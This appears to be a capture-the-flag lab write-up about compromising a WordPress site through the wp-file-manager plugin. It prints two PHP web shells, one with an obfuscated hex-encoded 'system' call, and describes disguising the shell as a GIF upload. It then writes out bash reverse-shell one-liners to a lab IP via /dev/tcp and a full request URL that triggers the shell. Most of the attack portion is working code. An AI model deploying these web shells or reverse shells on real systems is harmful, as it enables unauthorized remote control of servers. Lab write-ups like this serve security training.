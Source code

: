 

```php
//Example code
<? php
	echo "<pre>" . shell_exec($_REQUEST['cmd']); "</pre>;"
?>
//////////////////////////////////////

<?php
  "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>

//Then we make it pass for a gif file.


```

![Pasted image 20240108150531.png](/img/user/imgs/Pasted%20image%2020240108150531.png)

Once uploaded we write down the filename uploaded **aa6bdd61fa4f**
Uploaded files normally can be sanitized, in this case is within 


	no file extension

![Pasted image 20240108150601.png](/img/user/imgs/Pasted%20image%2020240108150601.png)

With file extension

![Pasted image 20240108150653.png](/img/user/imgs/Pasted%20image%2020240108150653.png)

We got RCE
lets get a reverse shell

```bash
urlenconded ampersand
##%26
&

bash -c "bash -i >& /dev/tcp/192.168.0.111/443 0>&1"
bash -c "bash -i >%26 /dev/tcp/192.168.0.111/443 0>%261"

```

![Pasted image 20240108150835.png](/img/user/imgs/Pasted%20image%2020240108150835.png)
horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}
Got a reverse shell

TTY Treatment
http://192.168.0.107/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.0.111/444%200%3E%261%22

# TTY Treatment
